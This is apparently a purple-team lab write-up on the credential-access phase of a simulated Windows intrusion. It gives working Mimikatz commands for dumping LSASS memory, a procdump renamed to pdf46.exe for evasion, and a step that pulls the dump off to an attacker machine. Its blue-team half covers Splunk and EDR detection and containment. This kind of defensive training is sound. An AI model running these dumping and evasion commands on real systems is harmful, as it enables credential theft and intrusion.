








🚩 **Phase 4: Credential Access — Live Extraction and Offline Dumping**

## Overview

**Objective**  
Extract credential material from the compromised host for reuse in later attack phases. This phase demonstrates both live credential dumping and stealth offline memory extraction.

**MITRE ATT&CK Mapping**
- **T1003.001:** LSASS Memory  
- **T1036:** Masquerading  

Credential access marks the transition from system compromise to identity compromise.

---

## Phase 4a — Online Credential Extraction (Mimikatz)

**Scenario**  
The attacker interacts directly with LSASS memory through an active implant to retrieve live logon credentials.

---

### Attack Simulation (Red Team)

Credential dumping is executed from a SYSTEM-level session.  
Privilege validation confirms SeDebugPrivilege is enabled prior to memory access.

<p align="center">
  
</p>
<p align="center">
  <em>Figure 4.1: SYSTEM-level session confirmed and SeDebugPrivilege enabled</em>
</p>

**Command**
```bash
getprivs
mimikatz "privilege::debug" "sekurlsa::logonpasswords"
```

<p align="center">
  
</p>
<p align="center">
  <em>Figure 4.2: Credentials extracted directly from LSASS memory</em>
</p>

Live credential material is obtained without writing a dump file to disk.

---

## Phase 4b — Offline Credential Dumping (Masqueraded Procdump)

**Scenario**  
To reduce live detection risk, a signed Microsoft Sysinternals utility is renamed to **pdf46.exe** and used to dump LSASS memory for offline analysis. Renaming the binary attempts to evade name-based detection.

This combines credential dumping with masquerading.

---

### Attack Simulation (Red Team)

The Sysinternals tool is downloaded, renamed to appear benign, and uploaded to the victim host before execution.

<p align="center">
  
</p>

<p align="center">
  
</p>
<p align="center">
  <em>Figure 4.3: Tool retrieved, renamed, and staged on the victim host</em>
</p>

**Command**
```bash
C:\Windows\Temp\pdf46.exe -ma lsass.exe C:\Windows\Temp\lsass.dmp /accepteula
download C:\Windows\Temp\lsass.dmp /home/kali/lsass.dmp
wine mimikatz.exe
sekurlsa::minidump /home/kali/lsass.dmp
sekurlsa::logonpasswords
```

<p align="center">
  
</p>
<p align="center">
  <em>Figure 4.4: Masqueraded binary dumping LSASS memory</em>
</p>

<p align="center">
  
</p>
<p align="center">
  <em>Figure 4.5: Memory dump exfiltrated to attacker system</em>
</p>

<p align="center">
  
</p>
<p align="center">
  <em>Figure 4.6: Offline credential parsing using Mimikatz</em>
</p>

Credential parsing occurs off-host to minimize endpoint visibility.

---

### Detection & Hunting (Blue Team — Splunk)

**Detection Logic**  
Detection focuses on behavior rather than binary name: any process attempting to dump LSASS memory.

**Query**
```spl
index=windows EventCode=1 
CommandLine="*-ma lsass.exe*"
| table _time, User, Image, CommandLine, ParentImage
```

<p align="center">
  
</p>
<p align="center">
  <em>Figure 4.7: Behavioral detection of LSASS dumping despite masquerading</em>
</p>

**Assessment**  
Renaming the tool bypasses simple signature matching but does not evade behavior-based hunting.

---

### Endpoint Detection (Blue Team — LimaCharlie)

**Detection Trigger**  
Endpoint telemetry identifies a non-system process targeting LSASS memory regardless of filename.

<p align="center">
  
</p>
<p align="center">
  <em>Figure 4.8: LimaCharlie detection of LSASS dumping despite renamed binary</em>
</p>

**Assessment**  
Masquerading failed to evade behavioral monitoring. Activity confirms credential theft with defense evasion intent.

---

## SOC Decision & Response

**Status:** CONFIRMED CREDENTIAL THEFT ACTIVITY

**Immediate Containment**
- Reset exposed credentials  
- Isolate affected host  
- Remove credential dump artifacts  
- Review authentication logs for suspicious reuse  

---

## Key Takeaway

Credential access was achieved through both live and offline memory extraction:

- Direct LSASS credential dumping  
- Masqueraded offline parsing workflow  

The attacker now possesses reusable authentication material. Effective detection depends on monitoring behavior rather than filenames or tool signatures.
